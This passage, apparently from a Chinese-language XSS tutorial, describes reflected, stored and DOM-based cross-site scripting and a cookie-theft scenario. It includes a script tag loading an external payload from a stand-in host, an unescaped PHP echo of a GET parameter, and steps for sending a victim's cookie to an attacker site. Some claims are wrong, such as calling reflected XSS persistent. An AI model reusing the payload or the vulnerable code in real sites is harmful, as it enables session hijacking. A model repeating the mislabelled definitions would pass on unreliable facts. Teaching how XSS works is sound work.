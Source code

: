 ```
```

​     危害

​        攻击者可以在<script>与</script>之间输入JavaScript代码，实现一些“特殊效果”，在真实环境中，不仅仅是弹框，通常使用<script src="example.xss.com/xss.js"></script>来加载外部脚本。而xss.js存放的是恶意JavaScript代码，用来盗取用户cookie,监控键盘的记录等恶意行为。

### 2 XSS类型



xss分为以下几类：

1）反射型XSS：如上面例子，黑客需要诱导用户点击链接。也叫作“非常持久型XSS”。

2）存储型XSS：把用户输入数据“存储”在服务器端。这种XSS有很强的稳定型。

比较常见的场景是，黑客写下一篇包含恶意JavaScript代码的博客文章，文章发表后，所有访问该文章的用户，都会在他们的 浏览器中执行这段恶意js代码。黑客的 恶意脚本保存在服务器。

3）DOM型XSS：DOM型XSS全称为Document Object Model,文档对象模型。也是一种反射型XSS，由于历史原因被单独列出来了。通过修改页面的DOM节点形成的XSS。DOM通常用于代表在HTML、XMTML、和XML中的对象。使用DOM可以允许脚本动态的访问和更新文档内容、结构和样式。基于DOM型的XSS不需要与服务器端进行交互，只发生在客户端处理数据阶段。



### 3反射型XSS

原理

​     反射型XSS也被称为持久型XSS，是现在最容易出现的一种XSS漏洞。当用户访问带有XSS代码的URL请求时，服务器端接收数据后处理，然后把带有XSS代码的数据发送到浏览器，浏览器解析这段带有XSS的代码，最终造成XSS漏洞。

典型例子：

`<?php $username=$_GET['username']`;

`echo $username;`

`>`

漏洞利用场景：

假如http://example.club/xss,php存在XSS反射跨站漏洞，那么攻击者的步骤可能如下：

1):用户A是网站http://example.blog的忠实粉丝，此时正泡在论坛看信息；

2）攻击者发现http://example.club存在反射XSS漏洞，然后精心构造JavaScript代码，此代码可以盗取用户cookie发送到指定的站点

3）攻击者将带有反射型的XSS链接通过站内信发送给用户A，站内信为一些诱惑信息，目的是为让用户A单击链接

4）用户A单机了带有XSS漏洞的URL，那么将会把自己的cookie发送到攻击者指定的www.xsser.com

5）攻击者接受到用户A的会话Cookie,直接利用Cookie以A的身份登入http://example.club从而获得用户A的敏感信息。

![7](D:\存储\文章\xss跨站\7.png)

![8](D:\存储\文章\xss跨站\8.png)

反射型XSS类型

get型

![xss-get](D:\存储\文章\xss跨站\xss-get.png)
